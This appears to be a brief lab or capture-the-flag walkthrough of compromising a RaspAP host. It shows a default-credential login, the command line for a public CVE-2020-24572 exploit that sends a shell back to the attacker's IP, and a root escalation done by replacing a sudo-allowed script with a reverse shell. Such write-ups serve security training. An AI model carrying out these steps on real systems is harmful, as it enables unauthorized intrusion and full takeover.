








Checking nikto:

There's a readme.

It's RaspAP
Trying default creds:


We get in with `admin:secret`

We find an exploit for this version:
https://github.com/gerbsec/CVE-2020-24572-POC
```
python3 exploit.py 192.168.155.97 8091 192.168.45.182 8091 secret 1
```

We have a shell.
Now checking `sudo -l`:

We can run `wifi_reset.py` as root.
Now we can make our own `wifi_reset.py`:

Now deleting the original and replacing with our reverse shell.
```
rm /home/walter/wifi_reset.py
```
```
cd /home/walter
sudo /usr/bin/python /home/walter/wifi_reset.py
```
Now we get a reverse shell:

Now we are root.
